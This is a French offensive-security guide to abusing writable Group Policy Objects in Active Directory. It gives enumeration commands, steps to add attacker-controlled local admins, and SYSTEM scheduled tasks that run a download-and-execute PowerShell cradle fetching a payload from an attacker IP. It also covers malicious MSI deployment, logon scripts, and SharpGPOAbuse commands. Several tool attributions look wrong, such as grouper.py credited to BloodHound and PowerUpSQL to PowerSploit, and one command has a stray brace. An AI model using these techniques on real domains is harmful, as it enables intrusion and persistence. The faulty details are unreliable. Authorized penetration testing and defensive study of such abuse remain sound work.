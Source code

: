 # V.F. Abus des Politiques de Groupe (GPO)

Les Politiques de Groupe (GPO) sont un mécanisme puissant pour gérer la configuration des utilisateurs et des ordinateurs dans un environnement Active Directory. Si un attaquant obtient des droits de modification sur un GPO, il peut l'utiliser pour élever ses privilèges, se déplacer latéralement, ou établir une persistance.

## 1. Identification des GPOs Modifiables

*   **Objectif :** Trouver les GPOs sur lesquels l'utilisateur compromis (ou les groupes auxquels il appartient) a des droits d'écriture (`WriteDacl`, `WriteProperty`, `GenericAll`).
*   **Outils et Commandes :**
    *   **PowerView :**
        ```powershell
        # Lister les GPOs où l'utilisateur actuel a des droits de modification
        Find-InterestingDomainGpoAcl -ResolveGUIDs | ?{$_.IdentityReference -match $env:USERNAME}
        # Lister les GPOs où un groupe spécifique (ex: 'Utilisateurs du Domaine') a des droits de modification
        Find-InterestingDomainGpoAcl -ResolveGUIDs | ?{$_.IdentityReference -match "Utilisateurs du Domaine"}

        # Obtenir les ACLs d'un GPO spécifique par son nom (DisplayName)
        Get-ObjectAcl -ResolveGUIDs -DisplayName "Nom GPO Cible"
        # Ou par son GUID
        Get-ObjectAcl -ResolveGUIDs -ADSPath "LDAP://CN={GUID_GPO},CN=Policies,CN=System,DC=domaine,DC=local"
        ```
    *   **Module ActiveDirectory PowerShell :**
        ```powershell
        # Nécessite le module GroupPolicy et ActiveDirectory
        Import-Module GroupPolicy
        # Obtenir un GPO par nom
        $gpo = Get-GPO -Name "Nom GPO Cible"
        (Get-Acl "AD:CN=$($gpo.Id),CN=Policies,CN=System,$((Get-ADDomain).DistinguishedName)}").Access | Format-Table
        ```
    *   **BloodHound :**
        SharpHound collecte les ACLs des GPOs. BloodHound peut afficher les chemins d'attaque impliquant des droits de modification de GPO.
        Requête Cypher exemple : `MATCH p=(u:User)-[:WriteGPO|GenericAllGPO*1..]->(gpo:GPO) RETURN p`

## 2. Scénarios d'Abus de GPO

Une fois qu'un GPO modifiable est identifié, et en comprenant à quelles OUs (et donc à quels utilisateurs/ordinateurs) il est lié, plusieurs abus sont possibles :

### a. Ajout d'un Administrateur Local

*   **Principe :** Modifier le GPO pour ajouter un utilisateur (contrôlé par l'attaquant) au groupe Administrateurs local sur les machines affectées par le GPO.
*   **Méthode :**
    1.  Utiliser la console "Gestion des stratégies de groupe" (GPMC.msc) si un accès RDP/interactif à un poste avec les outils RSAT est possible.
    2.  Naviguer vers : `Configuration ordinateur` > `Stratégies` > `Paramètres Windows` > `Paramètres de sécurité` > `Groupes restreints`.
    3.  Ajouter une nouvelle entrée :
        *   Groupe : `Administrators` (ou `Administrateurs`)
        *   Membres de ce groupe : Ajouter `DOMAINE\UtilisateurAttaquant`
    4.  Alternativement, utiliser `Configuration ordinateur` > `Préférences` > `Paramètres du Panneau de configuration` > `Utilisateurs et groupes locaux`. Créer un nouvel "Groupe local" :
        *   Action : `Mettre à jour`
        *   Nom du groupe : `Administrators (intégrés)`
        *   Membres : Ajouter `DOMAINE\UtilisateurAttaquant` (cocher "Supprimer tous les membres existants" avec prudence).
*   **Impact :** L'attaquant devient admin local sur toutes les machines où le GPO s'applique.

### b. Exécution de Code via Tâche Planifiée Immédiate

*   **Principe :** Configurer le GPO pour créer une tâche planifiée qui s'exécute immédiatement (ou au prochain démarrage/connexion) avec les privilèges SYSTEM.
*   **Méthode (GPMC.msc) :**
    1.  Naviguer vers : `Configuration ordinateur` > `Préférences` > `Paramètres du Panneau de configuration` > `Tâches planifiées`.
    2.  Créer une nouvelle "Tâche immédiate (Windows Vista et ultérieur)".
    3.  Configurer :
        *   Nom : `MaTacheMalveillante`
        *   Exécuter en tant que : `NT AUTHORITY\System` (ou `AUTORITE NT\System`)
        *   Cocher "Exécuter avec les autorisations maximales".
        *   Onglet "Actions" : Nouvelle action > Démarrer un programme.
            *   Programme/script : `powershell.exe`
            *   Arguments : `-nop -w hidden -c "IEX (New-Object Net.WebClient).DownloadString('http://<IP_ATTAQUANT>/payload.ps1')"` (ou une commande pour un reverse shell).
*   **Impact :** Exécution de code en tant que SYSTEM sur les machines cibles.

### c. Modification des Paramètres de Sécurité

*   **Principe :** Désactiver des protections, modifier les configurations du pare-feu, etc.
*   **Exemples :**
    *   Désactiver Windows Defender.
    *   Autoriser WinRM sur toutes les machines.
    *   Modifier les droits d'accès aux partages.

### d. Déploiement de Logiciels

*   **Principe :** Utiliser la fonctionnalité de déploiement de logiciels par GPO pour installer un MSI malveillant.
*   **Méthode (GPMC.msc) :**
    1.  Naviguer vers : `Configuration ordinateur` > `Stratégies` > `Paramètres du logiciel` > `Installation de logiciel`.
    2.  Nouveau > Paquet...
    3.  Pointer vers un MSI malveillant stocké sur un partage accessible par les machines cibles (ex: SYSVOL, ou un partage anonyme).
*   **Impact :** Installation du malware sur les machines cibles.

### e. Scripts de Démarrage/Arrêt/Connexion/Déconnexion

*   **Principe :** Ajouter un script malveillant qui s'exécutera au démarrage/arrêt de l'ordinateur ou à la connexion/déconnexion de l'utilisateur.
*   **Méthode (GPMC.msc) :**
    *   `Configuration ordinateur` > `Stratégies` > `Paramètres Windows` > `Scripts (démarrage/arrêt)`
    *   `Configuration utilisateur` > `Stratégies` > `Paramètres Windows` > `Scripts (ouverture/fermeture de session)`
    *   Placer le script malveillant dans le dossier SYSVOL du GPO (ex: `\\<DOMAINE>\SYSVOL\<DOMAINE>\Policies\{GUID_GPO}\Machine\Scripts\Startup` ou `User\Scripts\Logon`).

## 3. Modification des Fichiers GPO dans SYSVOL

*   Si l'attaquant a des droits d'écriture directement sur les fichiers du GPO dans le partage SYSVOL (ex: `\\<DOMAINE>\SYSVOL\<DOMAINE>\Policies\{GUID_GPO}\`), il peut modifier les fichiers de configuration (scripts, `.inf` pour les paramètres de sécurité, `.xml` pour les préférences) manuellement.
*   **Attention :** Cela peut être plus complexe et risqué si la structure des fichiers n'est pas bien comprise. La modification via GPMC est généralement plus sûre.
*   L'outil `grouper.py` (de BloodHound/SharpHound) peut aider à analyser les fichiers GPO.

## 4. Outils d'Automatisation
*   **PowerSploit `PowerUpSQL` et `Invoke-GPOMAudit` (plus ancien) / `Get-GPO` et `Set-GPO` (natif) :** Pour interagir avec les GPOs via PowerShell.
*   **SharpGPOAbuse (C#) :** Outil pour automatiser certains abus de GPO (ajout d'admin local, tâche planifiée).
    ```powershell
    # Exemple avec SharpGPOAbuse pour ajouter un utilisateur à un groupe local via GPO
    SharpGPOAbuse.exe --AddLocalAdmin --UserAccount "DOMAINE\UtilisateurAttaquant" --GPOName "Nom GPO Cible"
    # Exemple pour une tâche planifiée
    SharpGPOAbuse.exe --AddTask --TaskName "MaTache" --Author "AUTORITE NT\System" --Command "powershell.exe" --Arguments "-enc <BASE64_POWERSHELL_PAYLOAD>" --GPOName "Nom GPO Cible"
    ```

## Considérations
*   Les modifications de GPO peuvent prendre du temps à se propager (cycle de rafraîchissement des GPOs, par défaut 90-120 minutes, ou au redémarrage/reconnexion). Forcer une mise à jour avec `gpupdate /force` sur une machine cible (si on y a accès).
*   Les abus de GPO sont très bruyants si des audits sont en place.
*   Toujours sauvegarder ou noter la configuration originale d'un GPO avant de le modifier.
*   Tester les modifications dans un environnement de laboratoire si possible. 
